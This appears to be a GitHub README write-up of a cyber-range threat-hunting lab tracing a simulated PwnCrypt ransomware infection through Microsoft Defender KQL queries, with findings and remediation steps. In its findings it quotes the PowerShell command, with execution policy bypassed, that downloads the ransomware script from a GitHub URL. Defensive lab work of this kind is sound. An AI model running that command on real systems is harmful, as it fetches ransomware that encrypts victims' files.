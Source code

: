# Zero-Day-Ransomware-PwnCrypt-Outbreak

<img width="1536" height="1024" alt="image" src="https://github.com/user-attachments/assets/84b28057-5767-4402-adaa-68f7214615ca" />

## 📖 Scenario

A new ransomware strain called PwnCrypt has emerged, using a PowerShell-based payload to encrypt files with AES-256 encryption and adding a .pwncrypt extension to targeted files. The CISO is worried about its potential spread to the corporate network and intends to investigate further.

## 🕵️‍♂️ Data Collection
📊 Inspect DeviceFileEvents logs in MS Defender for .pwncrpyt string

```kql
let suspectDevice = "windows10vm";
DeviceFileEvents
| where DeviceName == suspectDevice
| where FileName contains "pwncrypt"
| order by Timestamp desc
| summarize by Timestamp, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine
```
<img width="1621" height="663" alt="スクリーンショット 2025-08-05 11 04 54" src="https://github.com/user-attachments/assets/367446b4-c874-470f-8551-f09ae8f0df43" />

🔍 Findings
- Files appended with .pwncrypt indicate the ransomeware has spread to our systems
- Initiating process confirms PowerShell-based script at C:\programdata\pwnscript.ps1 using -ExecutionPolicy Bypass

📊 Inspect DeviceNetworkEvents for any "Invoke-WebRequest" 

```kql
let suspectDevice = "windows10vm";
DeviceNetworkEvents
| where DeviceName == suspectDevice and InitiatingProcessCommandLine contains "Invoke-WebRequest"
| summarize by Timestamp, DeviceName, RemoteUrl, InitiatingProcessFileName, InitiatingProcessCommandLine
```

<img width="1651" height="521" alt="image" src="https://github.com/user-attachments/assets/06e49924-f2ec-4816-b298-04dc301d8a20" />

🔍Findings
- Confirmed command line run by "labuser" to callout to github and save file locally. "pwncrypt.ps1 to C:\programdata "powershell.exe  -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1"

## 🔬Data Analysis

Hypothothis
- User "labuser," with admin permissions, ran command line code that downloaded PwnCrypt ransomware to the machine. Pwncrypt encoded files and demanded a bitcoin ransom.
Evidence
- Data finding of DeviceNetworkEvents and DeviceFileEvents above.

Investigation

- Analysis of the pwncrypt.ps1 file indicates code associated with ransom ware.

Remediation

Containment
- Block traffic to/from assoicated URL

Eradication
- Isolate endpoints with pwncrypt.ps1 file and eradicate
- Terminate additional processes (schedule tasks, etc.)
- Scan network for other signs of infection

Recovery
- Restore endpoints from last known good backup
- Verify integridy of restored systems




Remediate
- Block all traffic to malicious URI
- Remove pwncrypt.ps1 and kill related processes
- 

